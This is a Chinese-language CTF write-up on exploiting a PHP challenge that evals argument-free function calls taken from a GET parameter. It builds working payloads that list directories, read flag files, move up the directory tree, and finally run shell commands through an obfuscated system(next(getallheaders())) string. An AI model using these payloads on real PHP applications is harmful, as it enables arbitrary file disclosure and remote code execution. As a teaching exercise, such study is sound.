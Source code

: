 题目源码

```
<?php
if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) {  
  eval($_GET['code']);
} else {
  show_source(__FILE__);
}
```



对于一个get方法提交的参数进行判断,如果经过replace后的值为;执行get提交的参数

```
\w对字母数字下划线进行匹配,(?R)?是递归整个匹配模式
```

```
这段代码的核心就是只允许函数而不允许函数中的参数，就是说传进去的值是一个字符串接一个`()`，那么这个字符串就会被替换为空，如果替换后只剩下`;`，那么这段代码就会被`eval`执行。而且因为这个正则表达式是递归调用的，所以说像`a(b(c()));`第一次匹配后就还剩下`a(b());`，第二次匹配后就还剩`a();`，第三次匹配后就还剩`;`了，所以说这一串`a(b(c()))，`就会被`eval`执行
```

但相反，像`a(b('111'));`这种存在参数的就不行，因为无论正则匹配多少次它的参数总是存在的

a(b(c()));是可以使用的,但是a(b('a','b'));这种带参数的就不行了

正常的，`print_r(scandir('.'));`可以用来查看当前目录所有文件名

但是这里不能使用带参数的函数,那么我们就需要构造这个点

这里我在网上看到了几种方法

1. **localeconv()**

`localeconv()`返回一包含本地数字及货币格式信息的数组。而数组第一项就是`"."`（后续出现的`.`都用双引号包裹，方便识别）

扒了张图

![img](https://pic1.zhimg.com/80/v2-a589d3830e15875d2429f6f1c02c7900_720w.jpg)

而我们只需要这个函数的第一项，可以用current函数提取.(`current()`返回数组中的单元，默认取第一个值：)



![image-20210523140032672](images/1.png)

这里这个点就打印出来了,我们再scandir读取一下

![image-20210523140114043](images/2.png)

就读到了这个当前目录文件

除此之外pos也是current的别名

这里一样可以用print_r(scandir(pos(loacleconv)));

如果都被过滤还可以使用`reset()`，该函数返回数组第一个单元的值，如果数组为空则返回 `FALSE`

这样也可以得到localeconv()的第一个值"."

​	2.

chr(46)是字符"."

```
ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion())))))))返回46
```

 所以构造

chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))))来得到chr(46)

print_r(scandir(chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))))));

获取绝对路径可用的有`getcwd()`和`realpath('.')`

所以我们还可以用`print_r(scandir(getcwd()));`输出当前文件夹所有文件名

![image-20210523140954828](images/3.png)

很明显这个文件夹没有我们想要的flag

那就往上跳

print_r(scandir(dirname(getcwd())));

![image-20210523141143935](images/4.png)



看到了一个和flag有关的文件夹

1. current() 取第一个
2. next() 取第二个
3. end() 取最后一个
4. current(array_reverse())倒数第一个

如果不是数组的最后一个或者倒数第二个呢？

我们可以使用`array_rand(array_flip())`，`array_flip()`是交换数组的键和值，`array_rand()`是随机返回一个数组

所以我们可以用：

```php
show_source(array_rand(array_flip(scandir(getcwd()))));
```

或者：

```php
show_source(array_rand(array_flip(scandir(current(localeconv())))));
```

（可以自己结合前面总结的构造`"."`的方法切合实际过滤情况读取，后文就只列举简单的语句）

多刷新几次，就读到了

不过这里直接读取文件是会报错的，因为默认是在当前工作目录寻找并读取这个文件，而这个文件在上一层目录，所以要先改变当前工作目录

用chdir()函数改变当前工作目录

chdir(dirname(getcwd()));

![image-20210523142607778](images/5.png)

这就读到了flag

读文件就多了，readfile(),show_source,file_get_contents(),highlight_file()



如果dirname被ban了那就需要构造`".."`来对上级目录进行读取

构造`".."`

`print_r(next(scandir(getcwd())));`：我们`scandir(getcwd())`出现的数组第二个就是`".."`，所以可以用`next()`获取

```php
print_r(scandir(next(scandir(getcwd()))));//也可查看上级目录文件
```

这中方式也能构造`".."`

```php
next(scandir(chr(ord(hebrevc(crypt(time()))))))
```

查看根目录

```php
print_r(scandir(chr(ord(strrev(crypt(serialize(array())))))));
```

if构造方法

```php
if(chdir(next(scandir(getcwd()))))show_source(array_rand(array_flip(scandir(getcwd()))));
```

查看根目录

```php
if(chdir(chr(ord(strrev(crypt(serialize(array())))))))print_r(scandir(getcwd()));
```

会受到权限限制，不一定成功

```
#执行shell
# system(next(getallheaders())): [~%8C%86%8C%8B%9A%92][~%CF]([~%91%9A%87%8B][~%CF]([~%98%9A%8B%9E%93%93%97%9A%9E%9B%9A%8D%8C][~%CF]()));

执行下一个header
```

